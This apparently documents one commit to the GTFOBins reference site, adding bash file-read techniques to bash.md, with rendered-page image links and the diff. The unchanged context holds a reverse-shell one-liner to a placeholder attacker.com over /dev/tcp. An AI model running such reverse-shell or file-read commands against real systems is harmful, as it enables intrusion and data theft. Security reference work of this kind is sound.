

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide and 900 px high, scrolled down 1354 px. Shown: the whole window, without its empty margins (208-1061 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1901 px from its top, so only the background shows below that.

Commit message:
Add read/write for ash, bash, csh, dash, ed, and emacs

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -40,4 +40,13 @@ functions:
         export RHOST=attacker.com
         export RPORT=12345
         bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
+  file-read:
+    - description: It trims trailing newlines.
+      code: |
+        export LFILE=file_to_read
+        bash -c 'echo "$(<$LFILE)"'
+    - description: It trims trailing newlines.
+      code: |
+        export LFILE=file_to_read
+        bash -c $'read -d \x04 a < "$LFILE"; echo "$a"'
 ---
```
Also changed, not shown: _gtfobins/ash.md (+4 -0 lines), _gtfobins/csh.md (+4 -0 lines), _gtfobins/dash.md (+4 -0 lines), _gtfobins/ed.md (+7 -0 lines), _gtfobins/emacs.md (+7 -0 lines).
